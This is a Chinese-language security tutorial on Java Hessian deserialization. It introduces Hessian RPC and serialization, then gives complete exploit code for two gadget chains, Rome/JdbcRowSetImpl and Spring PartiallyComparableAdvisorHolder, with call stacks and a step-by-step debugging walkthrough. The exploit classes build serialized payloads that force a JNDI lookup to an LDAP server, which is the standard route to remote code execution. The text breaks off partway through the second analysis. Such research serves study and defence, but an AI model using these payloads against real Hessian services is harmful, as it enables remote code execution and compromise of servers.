

超详细解析 Hessian 利用链

- - -

# 超详细解析 Hessian 利用链

## 简介

Hessian 是一种基于二进制的轻量级网络传输协议，用于在不同的应用程序之间进行远程过程调用（RPC）。它是由 Caucho Technology 开发的，并在 Java 社区中得到广泛应用。

Hessian 的设计目标是提供一种高效、简单和可移植的远程调用协议。相比于其他文本协议如 XML-RPC 或 SOAP，Hessian 使用二进制格式进行数据序列化和网络传输，可以实现更高的性能和较小的网络传输开销。这也使得 Hessian 在低带宽或高延迟的网络环境下表现出色。

以下是 Hessian 的一些主要特点：

1.  轻量级：Hessian 的二进制格式相对较小，占用较少的网络带宽和存储空间，适合于网络传输和数据存储。
2.  跨语言支持：Hessian 不限于特定的编程语言，它提供了多种语言的实现，包括 Java、C#、Python、Ruby 等，因此可以在不同语言之间进行跨平台和跨语言的远程调用。
3.  简单易用：Hessian 提供了简单的 API，使得开发者可以轻松地进行远程调用。开发者只需定义接口和数据类型，然后通过网络进行远程调用，无需手动处理数据序列化和网络传输细节。
4.  高效性能：Hessian 使用二进制格式进行数据序列化和网络传输，相对于文本协议，它具有更高的序列化和反序列化速度，并且在网络传输过程中消耗较少的带宽和资源。
5.  支持各种数据类型：Hessian 支持多种数据类型的序列化和传输，包括基本类型、对象、数组、集合、映射等。
6.  安全性：Hessian 支持基于 SSL/TLS 的加密和身份验证，可以确保远程调用的安全性和数据的机密性。

在使用 Hessian 进行远程调用时，通常需要在服务端和客户端分别引入相应的 Hessian 库，并且定义接口和数据类型。然后，通过 Hessian 提供的 API 进行远程调用，将请求和响应数据进行序列化和反序列化，并通过网络进行传输。服务端接收到请求后，根据接口定义执行相应的操作，并返回结果给客户端。

总体而言，Hessian 是一种高效、简单和可移植的远程调用协议，适用于构建分布式系统和跨语言应用程序之间的通信。它在许多领域和场景中得到了广泛的应用，例如微服务架构、Web 服务、移动应用程序等。

## 简单使用

### Servlet

**方法一**  
创建一个 Hessian 服务分为以下四步：  
第一：创建 Java 接口作为公共应用程序接口

```plain
package org.example;

// API for Basic service
public interface Basic {
    public String SayHello();
}
```

第二：创建服务实现类

```plain
package org.example;

import com.caucho.hessian.server.HessianServlet;

public class BasicService extends HessianServlet implements Basic {
    public String greeting = "Hello, hessian.";

    public String SayHello() {
        return greeting;
    }
}
```

第三：在 servlet 引擎中配置服务（web.xml）

```plain
<servlet>
    <servlet-name>hello</servlet-name>
    <servlet-class>org.example.BasicService</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>hello</servlet-name>
    <url-pattern>/hello</url-pattern>
  </servlet-mapping>
```

第三：使用 HessianProxyFactory 创建客户端

```plain
package org.example;

import com.caucho.hessian.client.HessianProxyFactory;

public class BasicClient {
    public static void main(String[] args) throws Exception {
        String url = "http://localhost:8090/hessian_servlet_war_exploded/hello";

        HessianProxyFactory hessianProxyFactory = new HessianProxyFactory();
        Basic basic = (Basic) hessianProxyFactory.create(Basic.class, url);

        System.out.println(basic.SayHello());
    }
}
```

客户端成功向服务端发送请求并接收到响应。  
参考：[http://hessian.caucho.com/#IntroductiontoHessian](http://hessian.caucho.com/#IntroductiontoHessian)

**方法二**  
服务类可以不继承 HessianServlet，直接通过配置文件来设置  
第一：服务类改成

```plain
package org.example;

public class BasicService implements Basic {
    public String greeting = "Hello, hessian.";

    public String SayHello() {
        return greeting;
    }
}
```

第二：配置文件改成

```plain
<servlet>
    <servlet-name>hello</servlet-name>
    <servlet-class>com.caucho.hessian.server.HessianServlet</servlet-class>
    <init-param>
        <param-name>home-class</param-name>
        <param-value>org.example.BasicService</param-value>
    </init-param>
    <init-param>
        <param-name>home-api</param-name>
        <param-value>org.example.Basic</param-value>
    </init-param>
</servlet>
<servlet-mapping>
    <servlet-name>hello</servlet-name>
    <url-pattern>/hello</url-pattern>
</servlet-mapping>
```

客户端同样能够成功向服务端发送请求并接收到响应  
参考：[http://hessian.caucho.com/doc/hessian-overview.xtp](http://hessian.caucho.com/doc/hessian-overview.xtp)

### Spring

1.创建服务接口

```plain
public interface MyService {
    String sayHello();
}
```

2.实现服务接口，实现具体的业务逻辑

```plain
public class MyServiceImpl implements MyService {
    @Override
    public String sayHello() {
        return "Hello, Hessian!";
    }
}
```

3.配置 Hessian 服务端：在 Spring 配置文件中配置 Hessian 服务端，将服务接口暴露为 Hessian 服务

```plain
<bean name="/myService" class="org.springframework.remoting.caucho.HessianServiceExporter">
    <property name="service" ref="myService"/>
    <property name="serviceInterface" value="com.example.MyService"/>
</bean>

<bean id="myService" class="com.example.MyServiceImpl"/>
```

在上述配置中，`org.springframework.remoting.caucho.HessianServiceExporter` 是 Spring 提供的 Hessian 服务端导出器，用于将服务接口暴露为 Hessian 服务。`name` 属性指定了 Hessian 服务的 URL 路径，`service` 属性引用了实际的服务实现类，`serviceInterface` 属性指定了服务接口。

4.配置 Hessian 客户端：如果需要从客户端调用远程 Hessian 服务，可以配置 Hessian 客户端。在 Spring 配置文件中添加以下配置

```plain
<bean id="myServiceProxy" class="org.springframework.remoting.caucho.HessianProxyFactoryBean">
    <property name="serviceUrl" value="http://localhost:8080/myService"/>
    <property name="serviceInterface" value="com.example.MyService"/>
</bean>
```

在上述配置中，`org.springframework.remoting.caucho.HessianProxyFactoryBean` 是 Spring 提供的 Hessian 客户端代理工厂，用于创建远程服务的代理对象。`serviceUrl` 属性指定了远程 Hessian 服务的 URL，`serviceInterface` 属性指定了服务接口

5.使用服务

```plain
@Autowired
private MyService myServiceProxy;

public void doSomething() {
    String result = myServiceProxy.sayHello();
    System.out.println(result);
}
```

在上述代码中，通过注入 `MyService` 接口的代理对象 `myServiceProxy`，可以直接调用远程服务的方法。

## 序列化与反序列化

Hessian2 序列化和反序列化过程中的关键类：

1.  `com.caucho.hessian.io.Hessian2Output` 和 `com.caucho.hessian.io.Hessian2Input`：这两个类分别用于将对象序列化为 Hessian2 格式的二进制数据（输出）和将二进制数据反序列化为对象（输入）。它们是 Hessian2 序列化和反序列化的核心类。
2.  `com.caucho.hessian.io.SerializerFactory`：与 Hessian1 类似，`SerializerFactory` 也是 Hessian2 的序列化工厂。它负责管理和创建序列化器（Serializer）。不同于 Hessian1，Hessian2 的序列化器实现更加灵活，可以通过配置文件或自定义方式进行扩展和定制。
3.  `com.caucho.hessian.io.Serializer`：这是一个抽象类，定义了 Hessian2 序列化和反序列化的方法。具体的对象类型都有对应的实现类，如 `com.caucho.hessian.io.StringValueSerializer` 用于序列化和反序列化字符串类型的对象。
4.  `com.caucho.hessian.io.AbstractHessianOutput` 和 `com.caucho.hessian.io.AbstractHessianInput`：这两个抽象类是 `Hessian2Output` 和 `Hessian2Input` 的基类，提供了一些公共的方法和功能，如处理引用、处理异常等。
5.  `com.caucho.hessian.io.HessianProtocolException`：这个异常类用于表示在 Hessian2 协议中发生的错误。在反序列化过程中，如果遇到无法解析的数据或格式不正确的数据，就会抛出该异常。
6.  `com.caucho.hessian.io.JavaSerializer`：这个类用于序列化和反序列化 Java 对象。它是 Hessian2 默认的 Java 对象序列化器。

准备类：该类继承了 Serializable 接口

```plain
package org.example;

import java.io.Serializable;

public class Student implements Serializable {
    public String name;
    public int age;

    public Student(String name, int age) {
        this.name = name;
        this.age = age;
    }

    @Override
    public String toString() {
        return "Student{" +
                "name='" + name + '\'' +
                ", age=" + age +
                '}';
    }
}
```

**序列化**：使用 Hessian2Output 的 writeObject 方法将对象序列化为二进制数据

```plain
package org.example;


import com.caucho.hessian.io.Hessian2Output;

import java.io.ByteArrayOutputStream;
import java.io.IOException;

public class SerializeTest {
    public static void main(String[] args) throws IOException {
        Student stu = new Student("aaa", 18);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.writeObject(stu);
        hessian2Output.close();
        System.out.print(byteArrayOutputStream.toString());
    }
}
```

**反序列化**：使用 Hessian2Input 的 readObject 方法将二进制数据反序列化为对象

```plain
package org.example;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;

public class UnSerializeTest {
    public static void main(String[] args) throws IOException {
        // 先序列化
        Student student = new Student("lucy", 23);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.writeObject(student);
        hessian2Output.close();

        // 反序列化
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        Object student1 = hessian2Input.readObject();
        System.out.println(student1.toString());
    }
}
```

## 利用链

### Rome 利用链

#### 利用链

```plain
JdbcRowSetImpl.getDatabaseMetaData()
ToStringBean.toString() (com.sun.syndication.feed.impl)
EqualsBean.beanHashCode() (com.sun.syndication.feed.impl)
ObjectBean.hashCode()
HashMap.hash()
HashMap.put()
MapDeserializer.readMap()
SerializerFactory.readMap()
Hessian2Input.readObject()
```

#### EXP

```plain
package org.dili.hessian;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.util.HashMap;

public class RomeHessian {
    public static void main(String[] args) throws Exception{
        // ldap url
        String url = "ldap://127.0.0.1:1389/czhupn";

        // 创建JdbcRowSetImpl对象
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName(url);

        // 创建toStringBean对象
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);

        // 创建ObjectBean
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);

        // 创建HashMap
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(objectBean, "aaaa");

        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("JavaSec/out/RomeHessian.bin");
        Hessian2Output hessian2Output = new Hessian2Output(fileOutputStream);
        hessian2Output.writeObject(hashMap);
        hessian2Output.close();

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("JavaSec/out/RomeHessian.bin");
        Hessian2Input hessian2Input = new Hessian2Input(fileInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();

    }
}
```

#### 函数调用栈

```plain
lookup:417, InitialContext (javax.naming)
connect:624, JdbcRowSetImpl (com.sun.rowset)
getDatabaseMetaData:4004, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
beanHashCode:193, EqualsBean (com.sun.syndication.feed.impl)
hashCode:110, ObjectBean (com.sun.syndication.feed.impl)
hash:338, HashMap (java.util)
put:611, HashMap (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:538, SerializerFactory (com.caucho.hessian.io)
readObject:2110, Hessian2Input (com.caucho.hessian.io)
main:40, RomeHessian (org.dili.hessian)
```

#### 详细分析

**注**：调试时只需要保持反序列化部分即可

从 Hessian2Input 的 readObject 方法开始，先解释该方法

> Hessian2Input 类的 readObject() 方法是 Hessian 协议中用于反序列化二进制数据的核心方法。它的作用是将二进制数据流转换为对应的 Java 对象。
> 
> 详细过程：
> 
> 1.  读取类型标识符：readObject() 方法首先从输入流中读取类型标识符。该标识符用于确定接下来要反序列化的对象的类型。
> 2.  创建对象：根据类型标识符，Hessian2Input 会创建对应的 Java 对象。它使用 Java 的反射机制，在运行时动态地创建对象实例。
> 3.  读取对象字段：一旦对象被创建，Hessian2Input 会读取对象的字段信息，包括字段名和字段值。它会递归地读取对象的所有字段，直到读取完所有字段或遇到引用（reference）。
> 4.  处理引用：在读取字段过程中，如果遇到引用（reference），Hessian2Input 会返回之前已经读取过的对象，而不是重新创建新的对象。这样可以确保对象的引用关系在反序列化后得到正确的恢复。
> 5.  返回对象：当所有字段都被读取完毕，Hessian2Input 会返回反序列化后的 Java 对象。

进入该方法

```plain
public Object readObject() throws IOException
{
    // 如果当前已经读取的数据长度_offset 小于数据总长度_length，则从内部缓冲区_buffer 中获取一个字节，否则调用 read() 方法从输入流中读取一个字节
    int tag = _offset < _length ? (_buffer[_offset++] & 0xff) : read();

    switch (tag) {
    // 空对象
    case 'N':
      return null;
    // 布尔True
    case 'T':
      return Boolean.valueOf(true);
    // 布尔False
    case 'F':
      return Boolean.valueOf(false);
    // .....
    // Map对象
    case 'H':
      {
        return findSerializerFactory().readMap(this, null);
      }
    // .....
    default:
      if (tag < 0)
        throw new EOFException("readObject: unexpected end of file");
      else
        throw error("readObject: unknown code " + codeName(tag));
    }
}
```

执行第一条语句

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205204954-0f6fabe2-c425-1.png)

tag 为 72，对应字符 H，进入 case 'H'

```plain
case 'H':
{
    return findSerializerFactory().readMap(this, null);
}
```

先进入 findSerializerFactory 方法，该方法用于查找适当的序列化工厂（SerializerFactory）对象

```plain
protected final SerializerFactory findSerializerFactory()
{
    SerializerFactory factory = _serializerFactory;

    if (factory == null) {
        // 创建一个默认的序列化工厂对象
        factory = SerializerFactory.createDefault();
        _defaultSerializerFactory = factory;
        _serializerFactory = factory;
    }

    return factory;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205015-1b92c2e2-c425-1.png)

返回至 case 部分，由于 findSerializerFactory() 返回的是 SerializerFactory 对象，所以来到 SerializerFactory 类的 readMap 方法，它根据给定的类型字符串（type）获取相应的反序列化器，并使用该反序列化器来读取和解析输入流中的 Map 数据

```plain
public Object readMap(AbstractHessianInput in, String type)
    throws HessianProtocolException, IOException
{
    // 获取与给定类型对应的反序列化器（Deserializer）对象
    Deserializer deserializer = getDeserializer(type);

    // 表示已经存在适合解析该类型的反序列化器
    if (deserializer != null)
        return deserializer.readMap(in);
    // 表示已经存在用于解析HashMap类型的反序列化器
    else if (_hashMapDeserializer != null)
        return _hashMapDeserializer.readMap(in);
    // 表示还没有适合解析HashMap类型的反序列化器。在这种情况下，创建一个新的MapDeserializer对象，并指定其类型为HashMap.class
    else {
        _hashMapDeserializer = new MapDeserializer(HashMap.class);

        // 读取和解析输入流中的Map数据
        return _hashMapDeserializer.readMap(in);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205030-24fa3716-c425-1.png)

由于是第一次解析该类型，所以会进入 else 中实例化一个 MapDeserializer 对象，该对象用于读取数据，进入 MapDeserializer 的 readMap 方法，该方法用于读取和解析 Hessian 协议中的 Map 类型数据，并根据指定的类型创建相应的 Map 对象。然后，循环读取键值对，并将其添加到 Map 对象中，最后返回解析后的 Map 对象。

```plain
public Object readMap(AbstractHessianInput in) throws IOException
{
    Map map;
    // 根据 type 创建 map
    if (_type == null)
        map = new HashMap();
    else if (_type.equals(Map.class))
        map = new HashMap();
    else if (_type.equals(SortedMap.class))
        map = new TreeMap();
    else {
        try {
            map = (Map) _ctor.newInstance();
        } catch (Exception e) {
            throw new IOExceptionWrapper(e);
        }
    }

    // 将map对象添加到引用列表中，用于处理循环引用
    in.addRef(map);

    // 通过调用in.readObject()方法读取键和值，并使用map.put(key, value)方法将键值对添加到map中
    while (! in.isEnd()) {
        // 关键点
        map.put(in.readObject(), in.readObject());
    }

    in.readEnd();

    return map;
}
```

根据上一步得到的\_type 和\_ctor 可以得到这里进入 else，并实例化 hashmap 对象，来到 while 循环中

**进入第一个 in.readObject**：

又来到 Hessian2Input 的 readObject 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205048-2f597730-c425-1.png)

67 对应字符'C'，即对象引用

```plain
case 'C':
{
    readObjectDefinition(null);
    return readObject();
}
```

继续进入 readObject 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205102-37a22c5c-c425-1.png)

进入

```plain
case 0x60: case 0x61: case 0x62: case 0x63:
case 0x64: case 0x65: case 0x66: case 0x67:
case 0x68: case 0x69: case 0x6a: case 0x6b:
case 0x6c: case 0x6d: case 0x6e: case 0x6f:
{
    int ref = tag - 0x60;

    if (_classDefs.size() <= ref)
        throw error("No classes defined at reference '"
                    + Integer.toHexString(tag) + "'");

    ObjectDefinition def = _classDefs.get(ref);

    return readObjectInstance(null, def);
}
```

该代码片段表示当遇到特定范围的标记时，首先计算引用的索引值，然后根据索引值从类定义表中获取对象定义信息，最后读取和解析一个对象实例，并返回解析后的对象。

执行完这里后就向上返回到了 MapDeserializer 的 readMap 方法，**这里第一个 readObject 得到的应该是 EXP 中的构造的 hashMap 的键 ObjectBean 对象**

**进入第二个 in.readObject**：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205116-407321ce-c425-1.png)

进入下面 case

```plain
case 0x00: case 0x01: case 0x02: case 0x03:
case 0x04: case 0x05: case 0x06: case 0x07:
case 0x08: case 0x09: case 0x0a: case 0x0b:
case 0x0c: case 0x0d: case 0x0e: case 0x0f:

case 0x10: case 0x11: case 0x12: case 0x13:
case 0x14: case 0x15: case 0x16: case 0x17:
case 0x18: case 0x19: case 0x1a: case 0x1b:
case 0x1c: case 0x1d: case 0x1e: case 0x1f:
{
    _isLastChunk = true;
    _chunkLength = tag - 0x00;

    int data;
    _sbuf.setLength(0);

    parseString(_sbuf);

    return _sbuf.toString();
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205131-49447ea6-c425-1.png)

很明显得到的是 map 的值 aaaa，**第二个 readObject 得到的是 EXP 中构造的 hashMap 中的值 aaaa**

**map.put**：

回到 MapDeserializer 的 readMap 方法，进行 map put 操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205143-502c8c5e-c425-1.png)

接下来就是 Rome 链和 JdbcRowSetImpl 链了，其实这里不仅仅可以是 Rome 和 JdbcRowSetImpl，只要通过 HashMap 的 hash 方法触发的链都可以运用

### Spring PartiallyComparableAdvisorHolder 链

#### 利用链

```plain
SimpleJndiBeanFactory.doGetType() (org.springframework.jndi.support)
SimpleJndiBeanFactory.getType() (org.springframework.jndi.support)
BeanFactoryAspectInstanceFactory.getOrder() (org.springframework.aop.aspectj.annotation)
AbstractAspectJAdvice.getOrder (org.springframework.aop.aspectj)
AspectJPointcutAdvisor.getOrder() (org.springframework.aop.aspectj)
AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder.toString() (org.springframework.aop.aspectj.autoproxy)
XString.equals() (com.sun.org.apache.xpath.internal.objects)
HotSwappableTargetSource.equals()    (org.springframework.aop.target) //可忽略
HashMap.putVal()
HashMap.put()
MapDeserializer.readMap()
SerializerFactory.readMap()
Hessian2Input.readObject()
```

#### EXP

```plain
package org.dili.hessian;

import com.caucho.hessian.io.*;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.commons.logging.impl.NoOpLog;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectInstanceFactory;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJPointcutAdvisor;
import org.springframework.aop.aspectj.annotation.BeanFactoryAspectInstanceFactory;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import sun.reflect.ReflectionFactory;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.HashSet;

public class PartiallyComparableAdvisorHolderHessian {
    public static void main(String[] args) throws Exception {
        // ldap url
        String url = "ldap://127.0.0.1:1389/rtj7ss";

        // 创建SimpleJndiBeanFactory
        // String SimpleJndiBeanFactory = "org.springframework.jndi.support.SimpleJndiBeanFactory";
        // Object simpleJndiBeanFactory = Class.forName(SimpleJndiBeanFactory).getDeclaredConstructor(new Class[]{}).newInstance();
        SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory();

        // 可添加
        // HashSet<String> set = new HashSet<>();
        // set.add(url);
        // setFiled(simpleJndiBeanFactory, "shareableResources", set);
        // setFiled(simpleJndiBeanFactory.getJndiTemplate(), "logger", new NoOpLog());

        // 创建BeanFactoryAspectInstanceFactory
        // 触发SimpleJndiBeanFactory的getType方法
        AspectInstanceFactory beanFactoryAspectInstanceFactory = createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
        setFiled(beanFactoryAspectInstanceFactory, "beanFactory", simpleJndiBeanFactory);
        setFiled(beanFactoryAspectInstanceFactory, "name", url);

        // 创建AspectJAroundAdvice
        // 触发BeanFactoryAspectInstanceFactory的getOrder方法
        AbstractAspectJAdvice aspectJAroundAdvice = createWithoutConstructor(AspectJAroundAdvice.class);
        setFiled(aspectJAroundAdvice, "aspectInstanceFactory", beanFactoryAspectInstanceFactory);

        // 创建AspectJPointcutAdvisor
        // 触发AspectJAroundAdvice的getOrder方法
        AspectJPointcutAdvisor aspectJPointcutAdvisor = createWithoutConstructor(AspectJPointcutAdvisor.class);
        setFiled(aspectJPointcutAdvisor, "advice", aspectJAroundAdvice);

        // 创建PartiallyComparableAdvisorHolder
        // 触发AspectJPointcutAdvisor的getOrder方法
        String PartiallyComparableAdvisorHolder = "org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder";
        Class<?> aClass = Class.forName(PartiallyComparableAdvisorHolder);
        Object partially = createWithoutConstructor(aClass);
        setFiled(partially, "advisor", aspectJPointcutAdvisor);

        // 可以不使用HotSwappableTargetSource
        // 创建HotSwappableTargetSource
        // 触发PartiallyComparableAdvisorHolder的toString方法
        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource(partially);
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource(new XString("aaa"));

        // 创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(targetSource1, "111");
        hashMap.put(targetSource2, "222");

        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("JavaSec/out/PartiallyComparableAdvisorHolderHessian.bin");
        Hessian2Output hessian2Output = new Hessian2Output(fileOutputStream);
        SerializerFactory serializerFactory = new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        hessian2Output.setSerializerFactory(serializerFactory);
        hessian2Output.writeObject(hashMap);
        hessian2Output.close();

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("JavaSec/out/PartiallyComparableAdvisorHolderHessian.bin");
        Hessian2Input hessian2Input = new Hessian2Input(fileInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();

    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = getField(o.getClass(), fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }

    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes,
                                                Object[] consArgs ) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }

    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
}
```

#### 函数调用栈

```plain
lookup:417, InitialContext (javax.naming)
doInContext:155, JndiTemplate$1 (org.springframework.jndi)
execute:87, JndiTemplate (org.springframework.jndi)
lookup:152, JndiTemplate (org.springframework.jndi)
lookup:179, JndiTemplate (org.springframework.jndi)
lookup:95, JndiLocatorSupport (org.springframework.jndi)
doGetType:228, SimpleJndiBeanFactory (org.springframework.jndi.support)
getType:184, SimpleJndiBeanFactory (org.springframework.jndi.support)
getOrder:136, BeanFactoryAspectInstanceFactory (org.springframework.aop.aspectj.annotation)
getOrder:223, AbstractAspectJAdvice (org.springframework.aop.aspectj)
getOrder:81, AspectJPointcutAdvisor (org.springframework.aop.aspectj)
toString:151, AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder (org.springframework.aop.aspectj.autoproxy)
equals:392, XString (com.sun.org.apache.xpath.internal.objects)
equals:104, HotSwappableTargetSource (org.springframework.aop.target)
putVal:634, HashMap (java.util)
put:611, HashMap (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:538, SerializerFactory (com.caucho.hessian.io)
readObject:2110, Hessian2Input (com.caucho.hessian.io)
main:79, PartiallyComparableAdvisorHolderHessian (org.dili.hessian)
```

#### 详细分析

**第一步**

还是从 Hessian2Input 类的 readObject 方法开始，开始 tag 为 72，Map 对象，进入对应的 case 处理；根据 findSerializerFactory() 方法找到 SerializerFactory 类，调用其 readMap 方法

进入 SerializerFactory 的 readMap 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205203-5bfc1612-c425-1.png)

进入 MapDeserializer 的 readMap 方法，会来到 while 循环

```plain
while (! in.isEnd()) {
    map.put(in.readObject(), in.readObject());
}
```

执行完一轮后的结果，将第一个元素写入 map 中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205215-634abc98-c425-1.png)

接着第二轮 put 操作中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205225-698b5748-c425-1.png)

**第二步**

进入 putVal 方法，在 HashMap 中的 putVal 的方法中，会将 put 元素的键与 map 中已有元素的键进行对比，即 equals 操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205238-7100da66-c425-1.png)

这里的 key 为 exp 中第二次 put 的键，k 为 exp 中第一次 put 的键

**第三步**

进入 HotSwappableTargetSource 的 equals 方法中

```plain
public boolean equals(Object other) {
    return this == other || other instanceof HotSwappableTargetSource && this.target.equals(((HotSwappableTargetSource)other).target);
}
```

调用 target 参数中的 equals 方法，这就是在 exp 中设置 target 属性的原因

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205250-784c296a-c425-1.png)

**第四步**

调用者为 XString 对象，调用其 equals 方法，这样设置的目的在于该 equals 方法中，调用 toString 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205301-7e99d95c-c425-1.png)

这样就将链的执行流交给了 map 中 put 的第一个元素里面的嵌套对象，即 AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder

**第五步**

进入该静态类的 toString 方法

```plain
// 这段代码的作用是生成一个包含类的名称、顺序信息和切面名称的字符串表示形式，用于描述该对象的信息
public String toString() {
    StringBuilder sb = new StringBuilder();
    Advice advice = this.advisor.getAdvice();
    sb.append(ClassUtils.getShortName(advice.getClass()));
    sb.append(": ");
    if (this.advisor instanceof Ordered) {
        // 关键在这
        sb.append("order ").append(((Ordered)this.advisor).getOrder()).append(", ");
    }

    if (advice instanceof AbstractAspectJAdvice) {
        AbstractAspectJAdvice ajAdvice = (AbstractAspectJAdvice)advice;
        sb.append(ajAdvice.getAspectName());
        sb.append(", declaration order ");
        sb.append(ajAdvice.getDeclarationOrder());
    }

    return sb.toString();
}
```

这里利用的就是 getOrder 方法，因此需要设置 advisor 属性的值，根据链构造，要将其设置为 AspectJPointcutAdvisor 对象

注：这里选择的对象既要有 getOrder 方法维持后续的链，也要是 Ordered 接口的实例，正好 AspectJPointcutAdvisor 是 Ordered 接口的子类

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205314-86aa7200-c425-1.png)

**第六步**

进入 AspectJPointcutAdvisor 对象的 getOrder 方法

```plain
@Override
public int getOrder() {
    if (this.order != null) {
        return this.order;
    }
    else {
        // 这里
        return this.advice.getOrder();
    }
}
```

还是利用 getOrder 方法，这里需要设置 advice 属性，根据链构造，需要将其设置成 AspectJAroundAdvice 对象，同时需要满足 order 属性为空

